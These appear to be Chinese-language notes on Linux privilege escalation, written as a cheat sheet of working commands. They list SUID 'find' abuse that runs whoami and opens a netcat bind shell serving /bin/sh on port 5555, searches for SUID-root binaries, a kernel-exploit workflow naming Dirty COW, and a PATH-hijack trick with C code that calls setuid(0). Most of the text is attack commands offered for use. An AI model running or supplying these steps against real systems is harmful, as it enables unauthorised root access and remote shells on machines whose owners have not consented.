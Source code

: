 已知的可用来提权的linux可行性的文件列表如下：

- Nmap
- Vim
- find

```shell
teach test
find test -exec whoami \;
find test -exec netcat -lvp 5555 -e /bin/sh \;
```

- Bash
- More
- Less
- Nano
- cp

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

* 内核漏洞(常用，本地权限，本地权限一般比webshell权限大)

  提权过程：连接-获取可利用漏洞-下载或上传 EXP-编译 EXP-给权限执行

  ```shell
  gcc 123.c -o exp
  chmod +x exp
  
  寻可用-下 exp-上/tmp-编译 exp-执行(无权限用 chmod)
  python -c 'import pty; pty.spawn("/bin/bash")' 在执行脏牛漏洞的时候，一定要开一个交互式的shell
  
  # 脏牛，针对webshell可以提权
  ```

* 环境变量（比较鸡肋，苛刻，需要本地权限，webshell权限设置不了环境变量，需要suid权限）

```shell
手写调用文件-编译-复制文件-增加环境变量-执行触发
**配合 SUID 进行环境变量提权-本地用户环境**
环境变量就添加后，通过终端直接连接
echo $PATH  # 输出环境变量
gcc demo.c -o shell
cp /bin/sh /tmp/ps
export PATH=/tmp:$PATH # 自己设置环境变量
./shell
id
```

```c
# include<unistd.h>
void main()
{
    setuid(0);
    setgid(0);
    system("ps");
}
```
